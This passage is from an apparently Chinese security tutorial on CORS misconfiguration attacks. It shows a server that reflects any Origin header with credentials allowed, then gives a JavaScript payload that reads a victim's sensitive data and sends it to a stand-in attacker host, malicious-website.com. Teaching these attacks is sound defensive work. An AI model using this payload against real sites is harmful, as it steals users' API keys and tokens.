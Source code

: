 * 比如后端开发完一部分业务代码后，提供接口给前端用，在前后端分离的模式下，前后端的域名是不一致的，此时就会发生跨域访问的问题。
* 程序员在本地做开发，本地的文件夹并不是在一个域下面，当一个文件需要发送ajax请求，请求另外一个页面的内容的时候，就会跨域。
* 电商网站想通过用户浏览器加载第三方快递网站的物流信息。
* 子站域名希望调用主站域名的用户资料接口，并将数据显示出来

## 攻击

### 1. 服务器从客户端指定的 Origin HTTP 头生成 ACAO HTTP 头

一些应用程序需要提供对许多其他域的访问。维护允许的域列表需要持续的努力，任何错误都有破坏功能的风险。因此，一些应用程序采用了有效地允许从任何其他域进行访问的简单方法

一种方法是从请求中读取 Origin 标头，并包含一个响应标头，说明允许请求源。例如，考虑接收以下请求的应用程序：

```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```

响应：

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

因为应用程序在标头中反映了任意来源`Access-Control-Allow-Origin`，这意味着绝对任何域都可以访问来自易受攻击域的资源。如果响应包含任何敏感信息，例如 API 密钥或 CSRF 令牌，您可以通过在您的网站上放置以下脚本来检索这些信息：

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```

### 2. 解析 Origin HTTP 头出错

一些支持从多个来源访问的应用程序通过使用允许来源的白名单来实现。收到 CORS 请求时，会将提供的来源与白名单进行比较。如果来源出现在白名单上，那么它会反映在`Access-Control-Allow-Origin`标头中，以便授予访问权限。例如，应用程序收到一个正常的请求，如：

```http
GET /data HTTP/1.1
Host: normal-website.com
...
Origin: https://innocent-website.com
```
